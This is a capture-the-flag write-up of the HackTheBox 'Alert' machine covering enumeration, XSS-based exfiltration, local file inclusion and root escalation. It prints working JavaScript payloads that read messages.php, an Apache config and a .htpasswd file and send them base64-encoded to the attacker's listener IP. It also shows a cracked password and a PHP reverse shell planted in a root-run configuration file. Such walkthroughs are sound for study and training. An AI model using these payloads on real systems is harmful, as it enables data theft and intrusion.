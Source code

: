 ```yaml
---
title: Alert Writeup
description: Writeup of "Alert" machine from Hackthebox
categories: [Writeups, Hackthebox]
tags: [Hackthebox]
image:
  path: /assets/blogimages/Writeups/Hackthebox/Alert/AlertLOGO.png
  alt: Alert Writeup
---
```


## Enumeration

Let's start with nmap scan:

```nmap -A -Pn -p- 10.10.11.44 -v```
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
```

Started recursive directory search using Dirsearch:

```dirsearch -u http://alert.htb -r```
```
[12:23:46] 200 -   24B  - /contact.php                                      
[12:23:46] 301 -  304B  - /css  ->  http://alert.htb/css/                   
Added to the queue: css/
[12:23:59] 301 -  309B  - /messages  ->  http://alert.htb/messages/         
Added to the queue: messages/                                               
[12:24:07] 403 -  274B  - /server-status/                                   
Added to the queue: server-status/
[12:24:07] 403 -  274B  - /server-status                                    
[12:24:12] 403 -  274B  - /uploads/                                         
Added to the queue: uploads/
[12:24:12] 301 -  308B  - /uploads  ->  http://alert.htb/uploads/           
                                                                             
[12:24:16] Starting: css/                                                                              
[12:24:50] 200 -    1KB - /css/style                                        
                                                                             
[12:25:01] Starting: messages/                                                                         
                                                                             
[12:25:52] Starting: server-status/                                                                    
[12:25:52] 404 -  271B  - /server-status/%2e%2e//google.com                 
                                                                             
[12:26:38] Starting: uploads/ 
```

Then performed fuzzing attack using Wfuzz to identify subdomains:
```
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://alert.htb" -H "Host: FUZZ.alert.htb" --hw 28
```
Found: `statistics.alert.htb`

## Initial Foothold

To gain initial access, I exploited a Cross-Site Scripting (XSS) vulnerability that allowed me to exfiltrate sensitive files.

I uploaded a .md file containing the following payload:
```
<script>
fetch("http://alert.htb/messages.php") 
  .then(response => response.text())
  .then(data => {
    let encodedData = btoa(unescape(encodeURIComponent(data)));
    new Image().src = "http://10.10.14.9:1234/?d=" + encodedData;
  });
</script>
```
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert1.png)


This script attempts to fetch messages.php and send its contents to my listener:
```
php -S 0.0.0.0:1234
```

I confirmed that the XSS payload executed but didn't retrieve messages.php as expected:
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert2.png)

Since admin reviews sent contact messages, I crafted a payload to trick into loading my malicious markdown file:
```
<img src="http://alert.htb/visualizer.php?link_share=67ea36941dd2e8.44157830.md" />
```

After sending this via the Contact form, I received a Base64-encoded response:
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert3.png)
```
PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==
```


Decoding it revealed a parameter (messages.php?file=):
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert4.png)


Then I tried LFI to retrieve Apache's site configuration:
```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-enabled/000-default.conf") 
  .then(response => response.text())
  .then(data => {
    let encodedData = btoa(unescape(encodeURIComponent(data)));
    new Image().src = "http://10.10.14.9:1234/?d=" + encodedData;
  });
</script>
```
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert5.png)


By this success, I attempted to access the .htpasswd file for statistics.alert.htb:
```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd") 
  .then(response => response.text())
  .then(data => {
    let encodedData = btoa(unescape(encodeURIComponent(data)));
    new Image().src = "http://10.10.14.9:1234/?d=" + encodedData;
  });
</script>
```
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert6.png)

This successfully retrieved a hash:
`albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/`

Using Hashcat, I cracked Albert’s hash:
```hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt```
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert7.png)

`albert:manchesterunited`

Got user flag.

## Privilege Escalation

After gaining access as albert, I checked group memberships using `id`:
```
albert@alert:~$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```
Albert was part of the management group.

I searched for directories writable by the management group using:
```
find / -type d -group management 2>/dev/null
```
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert8.png)

Then using `ps aux` I saw a PHP development server running as root, serving content from /opt/website-monitor:
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert9.png)


To escalate privileges, I modified configuration.php with a PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).


I set up a Netcat listener:
```
nc -lvnp 2222
```

As soon as the service loaded the modified configuration file, a reverse shell was established, granting me root access:<br>
![](/assets/blogimages/Writeups/Hackthebox/Alert/Alert11.png)



